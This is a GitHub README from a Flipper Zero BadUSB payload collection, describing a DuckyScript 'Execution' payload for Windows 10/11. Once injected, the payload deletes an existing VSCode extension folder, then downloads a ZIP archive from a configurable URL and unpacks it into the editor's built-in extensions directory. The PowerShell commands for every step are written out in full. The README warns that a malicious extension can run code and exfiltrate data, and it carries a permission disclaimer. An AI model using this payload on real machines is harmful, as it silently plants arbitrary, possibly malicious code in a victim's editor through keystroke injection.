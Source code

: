 # Install Any Arbitrary VSCode Extension

[![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2Faleff-github%2Fmy-flipper-shits&count_bg=%233C3C3C&title_bg=%233C3C3C&icon=linux.svg&icon_color=%23FFFFFF&title=views&edge_flat=false)](https://github.com/aleff-github/my-flipper-shits)

**Category**: Execution

<div align=center>

<img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/logo-repository-2_0.gif" width="600" /><br><img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/DISCLAIMER.png" width="600" />

</div>

This DuckyScript script is designed to automate the installation of any arbitrary Visual Studio Code (VSCode) extension on Windows 10. It performs the following tasks:

1. Removes any pre-existing version of the extension (if applicable).
2. Downloads a ZIP archive of a VSCode extension.
3. Extracts the extension to the correct VSCode extensions folder.

The script makes use of PowerShell to manage file paths and execute commands necessary for the installation process. The user must provide the name of the extension folder and the link to the ZIP archive containing the extension.

## First Of All!

Installing Arbotrary Visual Studio Code (VSCode) extensions can pose cybersecurity risks because extensions, often developed by third parties, have access to critical functionalities of the editor and the operating system. A malicious extension could execute harmful code, access local files, or exfiltrate sensitive data without the user's knowledge. Additionally, if extensions are not from trusted sources or are not regularly updated, they may contain vulnerabilities that attackers can exploit, compromising the security of both the system and the entire development environment.

So...
- Before doing these tests make sure you have full permission from the owner of the computer in case it is not you.
- Always check the source and source code before doing this
- If even one line of code is not clear to you, you should not proceed at all because it takes only a little to do damage.

## Features

- Installs a VSCode extension by downloading a ZIP file and extracting it to the correct location.
- Removes any previous version of the extension.
- Completely automated, requiring no manual intervention once the script is executed.

## Requirements

- **Target OS**: Windows 10/11
- **VSCode Path**: The script assumes that VSCode is installed in its default location. If it is installed in a different location, the paths in the script may need to be updated.
- **Compilation**: Make sure that the extension you are going to install has the out folder inside, that is, the folder that is generated as a result of compilation. Without this folder the extension cannot be loaded properly.
- **Internet Connection**: This is mandatory in case you want to download the archive from the Internet, whereas if you want to download from a server in the intranet you only need to be connected to the local network. This basically depends on the individual case....

## Usage

### DuckyScript Configuration

Before running the script, make sure to configure the following two variables in the script:

1. `#EXTENSION_NAME`: Replace all occurrences with the name of the folder where the extension will be installed.
    ```plaintext
    STRING #EXTENSION_NAME
    ```
   Example: If the extension folder name is `DuckyScriptCookbook`, then replace `example` with `DuckyScriptCookbook`.

2. `https://example.com/path/to/NewExtension.zip`: Replace this with the actual URL to the ZIP file of the VSCode extension you want to install.
    ```plaintext
    STRING $url = "https://example.com/path/to/NewExtension.zip"
    ```

### PowerShell Commands Breakdown

- **Detecting and Removing Previous Extension**: The script checks if an official version of the extension is already installed and removes it:
    ```powershell
    $extensionsPath = "$env:USERPROFILE\AppData\Local\Programs\Microsoft VS Code\resources\app\extensions\#EXTENSION_NAME"
    if (Test-Path -Path $extensionsPath -PathType Container) {
        Remove-Item -Recurse -Force -Path $extensionsPath
    }
    ```

- **Downloading and Extracting the New Extension**: The script downloads the extension from the link provided inside a temporary folder and extracts it inside the official (the default) VSCode extensions folder:
    ```powershell
    $url = "https://example.com/path/to/NewExtension.zip"
    $downloadPath = "$env:TEMP\NewExtension.zip"
    $extractPath = "$env:USERPROFILE\AppData\Local\Programs\Microsoft VS Code\resources\app\extensions\#EXTENSION_NAME"
    Invoke-WebRequest -Uri $url -OutFile $downloadPath
    if (Test-Path -Path $downloadPath) {
        Expand-Archive -Path $downloadPath -DestinationPath $extractPath -Force
        Remove-Item -Path $downloadPath -Force
    }
    ```
  
## Notes
- Ensure that the ZIP file is structured properly (i.e., it contains all necessary files for the extension) before attempting to install.
- Make sure that PowerShell is available on the target machine.
- This script is intended for Windows 10/11 systems. Compatibility with other versions of Windows has not been tested.

## Credits

<h2 align="center"> Aleff :octocat: </h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/github.png?raw=true width="48" height="48" />
      </a>
      <br>Github
    </td>
    <td align="center" width="96">
      <a href="https://www.linkedin.com/in/alessandro-greco-aka-aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/linkedin.png?raw=true width="48" height="48" />
      </a>
      <br>Linkedin
    </td>
  </tr>
</table>
</div>
